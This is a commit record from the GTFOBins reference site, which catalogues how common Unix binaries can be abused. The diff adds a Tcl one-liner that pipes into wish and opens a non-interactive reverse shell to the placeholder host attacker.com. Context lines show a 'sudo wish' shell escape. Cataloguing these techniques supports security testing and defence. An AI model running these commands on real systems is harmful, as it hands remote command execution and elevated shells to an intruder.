

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/wish.md, in a window 1280 px wide. Shown: the top 746 px of the page, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add wish non-interactive reverse shell

```diff
--- a/_gtfobins/wish.md
+++ b/_gtfobins/wish.md
@@ -8,4 +8,10 @@ functions:
     - code: |
         sudo wish
         exec /bin/sh <@stdin >@stdout 2>@stderr
+  reverse-shell-non-interactive:
+    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
+      code: |
+        export RHOST=attacker.com
+        export RPORT=12345
+        echo 'set s [socket $::env(RHOST) $::env(RPORT)];while 1 { puts -nonewline $s "> ";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | wish
 ---
```
